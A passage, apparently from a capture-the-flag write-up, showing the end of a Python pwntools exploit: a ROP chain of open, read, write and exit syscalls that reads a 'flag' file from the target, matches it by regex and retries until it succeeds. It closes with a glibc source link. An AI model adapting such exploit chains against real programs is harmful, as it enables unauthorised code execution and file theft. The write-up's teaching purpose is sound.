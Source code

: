 ```python
 write_data(r, flat(
  # open("flag", O_RDONLY, 0)
  u64(b'\0flag\0\0\0'),
  pop_rdi, main_retaddr - 0x8 + 0x1,
  pop_rsi, 0x0,
  pop_rdx, 0x0, 0xCCCCCCCCCCCCCCCC,
  pop_rax, 0x2,
  syscall,
  # read(3, buf_addr, 0x100)
  pop_rdi, 0x3,
  pop_rsi, buf_addr,
  pop_rdx, 0x100, 0xCCCCCCCCCCCCCCCC,
  pop_rax, 0x0,
  syscall,
  # write(1, buf_addr, 0x100)
  pop_rdi, 0x1,
  pop_rsi, buf_addr,
  pop_rdx, 0x100, 0xCCCCCCCCCCCCCCCC,
  pop_rax, 0x1,
  syscall,
  # exit(0)
  pop_rdi, 0x0,
  pop_rax, 0x3c,
  syscall
 ))

 # Run chain and get flag, GG
 r.sendlineafter(b'> ', b'e')
 data = r.clean(5)
 r.close()

 match = re.search(rb'\w+\{[^}]+\}', data)
 if not match:
  return False

 print(match.group(0).decode())
 return True

if __name__ == '__main__':
 context(arch='amd64')
 libc = ELF('libs/libc.so.6', checksec=False)

 while 1:
  try:
   if run(libc):
    break
  except AssertionError:
   continue
```

[dl-minimal-malloc]: https://elixir.bootlin.com/glibc/glibc-2.39/source/elf/dl-minimal-malloc.c
